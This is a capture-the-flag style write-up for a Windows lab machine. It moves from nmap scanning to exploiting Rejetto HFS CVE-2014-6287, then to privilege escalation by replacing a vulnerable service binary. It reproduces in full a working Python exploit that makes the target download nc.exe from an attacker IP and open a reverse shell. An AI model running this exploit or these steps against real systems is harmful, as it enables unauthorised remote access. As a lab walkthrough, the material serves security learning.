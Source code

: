 - ### Scanning & Enumeration
	- **nmap** results
		- Fast Scan
			- ![Screenshot 2024-07-28 230303.png](../assets/Screenshot_2024-07-28_230303_1722314700844_0.png)
		- In-Depth Scan
			- ![Screenshot 2024-07-28 230406.png](../assets/Screenshot_2024-07-28_230406_1722314726653_0.png)
			- ![Screenshot 2024-07-28 230332.png](../assets/Screenshot_2024-07-28_230332_1722314739671_0.png)
			- ![Screenshot 2024-07-28 230346.png](../assets/Screenshot_2024-07-28_230346_1722314747620_0.png){:height 285, :width 578}
		- A *Regetto HTTP file server* is served on port `8080`
			- Version - `2.3.x` - vulnerable to `CVE-2014-6287`
- ### Initial Access
	- `auto` with Metasploit
		- ![Screenshot 2024-07-28 230454.png](../assets/Screenshot_2024-07-28_230454_1722315028320_0.png)
		- ![Screenshot 2024-07-28 230511.png](../assets/Screenshot_2024-07-28_230511_1722315042571_0.png)
		- ![Screenshot 2024-07-28 230524.png](../assets/Screenshot_2024-07-28_230524_1722315058227_0.png)
		- ![Screenshot 2024-07-28 230534.png](../assets/Screenshot_2024-07-28_230534_1722315071953_0.png)
	- `manual` without Metasploit
		- Use the `Python2` script from `ExploitDB` - https://www.exploit-db.com/exploits/

    			-	```
			  #!/usr/bin/python2
			  # Exploit Title: HttpFileServer 2.3.x Remote Command Execution
			  # Google Dork: intext:"httpfileserver 2.3"
			  # Date: 04-01-2016
			  # Remote: Yes
			  # Exploit Author: Avinash Kumar Thapa aka "-Acid"
			  # Vendor Homepage: http://rejetto.com/
			  # Software Link: http://sourceforge.net/projects/hfs/
			  # Version: 2.3.x
			  # Tested on: Windows Server 2008 , Windows 8, Windows 7
			  # CVE : CVE-2014-6287
			  # Description: You can use HFS (HTTP File Server) to send and receive files.
			  #	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
			  #	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
			   
			  #Usage : python Exploit.py <Target IP address> <Target Port Number>
			  
			  #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
			  #          You may need to run it multiple times for success!
			  
			  
			  import urllib2
			  import sys
			  
			  try:
			  	def script_create():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
			  
			  	def execute_script():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
			  
			  	def nc_run():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
			  
			  	ip_addr = "192.168.44.128" #attack IP address
			  	local_port = "443" # attack Port number
			  	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
			  	save= "save|" + vbs
			  	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
			  	exe= "exec|"+vbs2
			  	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
			  	exe1= "exec|"+vbs3
			  	script_create()
			  	execute_script()
			  	nc_run()
			  except:
			  	print """[.]Something went wrong..!
			  	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
			  	Don't forgot to change the Local IP address and Port number on the script"""
			  	
			              
			  ```
			-
		- An `HTTP` server must be running on the attacker machine so that the script can `GET` the `nc.exe` binary
		  collapsed:: true
			- ![Screenshot 2024-07-30 092901.png](../assets/Screenshot_2024-07-30_092901_1722315984876_0.png)
		- Using the `nc.exe` binary the script will connect back the listener
			- ![Screenshot 2024-07-30 092909.png](../assets/Screenshot_2024-07-30_092909_1722315995005_0.png)
		- The script is run twice for both of the above actions to take place
			- ![Screenshot 2024-07-30 092917.png](../assets/Screenshot_2024-07-30_092917_1722316037939_0.png)
- ### Privilege Escalation
	- `auto` Metasploit
		- Upload `PowerUp.ps1` script to search for *privesc* vectors
			- ![Screenshot 2024-07-28 231504.png](../assets/Screenshot_2024-07-28_231504_1722315224891_0.png)
		- Run `Invoke-AllChecks` to run the script
			- ![Screenshot 2024-07-28 231736.png](../assets/Screenshot_2024-07-28_231736_1722315270611_0.png)
		- Generate `reverse_tcp` payload
			- ![Screenshot 2024-07-28 232318.png](../assets/Screenshot_2024-07-28_232318_1722315333480_0.png)
		- Stop the vulnerable service & Upload the payload [in the execution path of the service]
			- ![Screenshot 2024-07-29 095301.png](../assets/Screenshot_2024-07-29_095301_1722315415555_0.png)
		- Start the service with a running `netcat` listener to capture the shell
			- ![Screenshot 2024-07-29 095353.png](../assets/Screenshot_2024-07-29_095353_1722315482525_0.png)
			- ![Screenshot 2024-07-29 095415.png](../assets/Screenshot_2024-07-29_095415_1722315501627_0.png)
			- ![Screenshot 2024-07-29 095521.png](../assets/Screenshot_2024-07-29_095521_1722315510795_0.png)
	- `manual`
		- For enumeration of `privesc` vectors -> use `WinPEAS`
			- ![Screenshot 2024-07-30 093656.png](../assets/Screenshot_2024-07-30_093656_1722316144315_0.png)
			- ![Screenshot 2024-07-30 093702.png](../assets/Screenshot_2024-07-30_093702_1722316150991_0.png)
		- On running `WinPEAS`
		  collapsed:: true
			- ![Screenshot 2024-07-30 094010.png](../assets/Screenshot_2024-07-30_094010_1722316216532_0.png)
			- ![Screenshot 2024-07-30 093934.png](../assets/Screenshot_2024-07-30_093934_1722316191389_0.png)
			- ![Screenshot 2024-07-30 093951.png](../assets/Screenshot_2024-07-30_093951_1722316199532_0.png)
		- Stop the running service - `sc stop AdvancedSystemCareService9`
		- Get the payload executable from the our HTTP server
			- ![Screenshot 2024-07-30 094950.png](../assets/Screenshot_2024-07-30_094950_1722316303431_0.png)
		- Start the service with the payload in execution path - `sc start AdvancedSystemCareService9`
			- ![124.png](../assets/124_1722316495566_0.png){:height 220, :width 578}
			- ![123.png](../assets/123_1722316551686_0.png)
